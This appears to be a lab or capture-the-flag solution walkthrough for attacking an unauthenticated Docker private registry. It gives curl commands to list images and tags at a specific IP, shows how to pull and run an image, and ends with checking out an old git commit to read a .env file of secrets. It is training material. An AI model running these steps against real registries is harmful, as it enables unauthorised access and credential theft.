





# Attacking Private Registry - Solution

* Understanding the API structure of the docker private registry to list of images

```bash
curl 165.22.221.65:5000/v2/_catalog
```

* Get the list of tags for the images

```bash
curl 165.22.221.65:5000/v2/privatecode/tags/list
```




* Add the insecure-registry flag to download docker image at `vi /lib/systemd/system/docker.service`

```bash
ExecStart=/usr/bin/dockerd -H fd:// --insecure-registry 165.22.221.65:5000
```

* Then restart the service

```bash
sudo systemctl daemon-reload
sudo service docker restart
```

* Download the image from private registry

```bash
docker pull 165.22.221.65:5000/privatecode:golang-developer-team
```



* Enter into the container using the below command. Look for interesting file and folders

```bash
docker run --rm -it 165.22.221.65:5000/privatecode:golang-developer-team sh

cd /app
ls -la
```



* Now look at the commit logs for git

```bash
git log
```



* Then revert to the commit where environment variables are there. Then look for files and secrets

```bash
git checkout f17a07721ab9acec96aef0b1794ee466e516e37a

ls -la

cat .env
```

